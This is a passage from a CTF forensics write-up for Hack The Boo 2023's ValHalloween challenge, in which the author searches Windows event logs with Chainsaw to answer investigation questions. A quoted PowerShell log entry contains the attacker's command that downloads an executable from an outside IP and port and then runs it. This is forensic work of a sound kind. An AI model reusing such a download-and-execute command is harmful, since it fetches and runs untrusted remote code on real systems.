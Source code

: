 ```yaml
---
layout: default
title: ValHalloween
---
```


# [Hack The Boo 2023](index.md) - Forensics - ValHalloween

> As I was walking the neighbor's streets for some Trick-or-Treat, a strange man approached me, saying he was dressed as ""The God of Mischief!"". He handed me some candy and disappeared. Among the candy bars was a USB in disguise, and when I plugged it into my computer, all my files were corrupted! First, spawn the haunted Docker instance and connect to it! Dig through the horrors that lie in the given Logs and answer whatever questions are asked of you!

We are provided with a zip file containing some captured Windows logs. We're also provided with an IP address and port to connect to.

Connecting to the IP and port, we are prompted with some questions about the log files that we've been given.

```
What are the IP address and port of the server from which the malicious actors downloaded the ransomware? (for example: 98.76.54.32:443)
> 
```

I remembered that in the [HackTheBox Cyber Apocalypse 2023 - The Cursed Mission](../htb-2023-cyber-apocalypse/) CTF, there was a challenge ([Packet Cyclone](../htb-2023-cyber-apocalypse/for-packet-cyclone))that walked the user through using a utility called [Chainsaw](https://github.com/WithSecureLabs/chainsaw). I've wanted to sit down and get more familliar with Chainsaw since then, so it looks like here is a good opportunity to put it to use. This article will _not_ be an especially good example of how to use Chainsaw - I went for speed here, not accuracy, and I spent a lot of time looking over the results. 

```
What are the IP address and port of the server from which the malicious actors downloaded the ransomware? (for example: 98.76.54.32:443)
> 
```

We can search for IP addresses using regular expressions with this command:

```
chainsaw.exe search -e "((25[0-5]|(2[0-4]|1\d|[1-9]|)\d)\.?\b){4}" .\forensics_valhalloween\
```

This returns a _lot_ of logs (2612 to be precise), so we probably could have refined this search a bit, but the last one in the list happens to look fairly suspicious:

```
Event:
  EventData:
    Binary: null
    Data:
    - Stopped
    - Available
    - "\tNewEngineState=Stopped\r\n\tPreviousEngineState=Available\r\n\r\n\tSequenceNumber=15\r\n\r\n\tHostName=ConsoleHost\r\n\tHostVersion=5.1.19041.3031\r\n\tHostId=38c9afb1-adc2-427a-b407-845545ddfe41\r\n\tHostApplication=powershell.exe (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','C:\\Users\\HoaGay\\AppData\\Local\\Temp\\mscalc.exe');start-process 'C:\\Users\\HoaGay\\AppData\\Local\\Temp\\mscalc.exe'\r\n\tEngineVersion=5.1.19041.3031\r\n\tRunspaceId=8e8abfba-b4d1-4d1f-83a1-8dff31c8ac15\r\n\tPipelineId=\r\n\tCommandName=\r\n\tCommandType=\r\n\tScriptName=\r\n\tCommandPath=\r\n\tCommandLine="
  System:
    Channel: Windows PowerShell
    Computer: DESKTOP-V0F35DT
    Correlation: null
```